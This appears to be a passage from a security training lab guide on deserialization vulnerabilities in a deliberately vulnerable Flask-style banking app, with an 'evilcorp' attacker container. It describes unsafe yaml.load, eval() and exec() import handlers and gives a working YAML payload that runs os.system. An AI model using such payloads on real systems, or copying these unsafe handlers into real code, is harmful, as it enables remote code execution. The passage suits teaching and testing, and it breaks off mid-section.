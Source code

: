 # ============================================================================
# Deserialization Vulnerabilities
# ATTACK EXAMPLES & TESTING ENDPOINTS
# ============================================================================

## Environment Setup

Before starting, ensure you have:
- Banking-app container running
- Evilcorp-server container running
- Three terminal windows available

### Prepare for monitoring
1. On one terminal run `docker exec -it banking-app sh` This gives you terminal access to the banking-app server.
2. On another terminal run `docker exec -it evilcorp-server sh` This gives you terminal access to the evilcorp hacker server.

### The injection points
1. Navigate to the import functionality (`http://127.0.0.1:5000/import`)

The application accepts three dangerous import formats:
- **YAML Config**: Uses `yaml.load()` with unsafe Loader
- **JSON Template**: Uses `eval()` on preprocessing commands and formulas  
- **Config Script**: Uses `exec()` to execute uploaded Python code

---

## YAML Deserialization Attacks

### Target: yaml_config format
User uploads YAML files that get processed with `yaml.load(file_content, Loader=yaml.Loader)`

**Basic Command Execution**

Create file `malicious.yaml`:
```
version: "1.0"
description: "Transaction import configuration"
command_exec: !!python/object/apply:os.system
  - "echo YAML_ATTACK_SUCCESS > /tmp/yaml_test.txt"
```

**System Information Gathering**
Create file `malicious.yaml`:
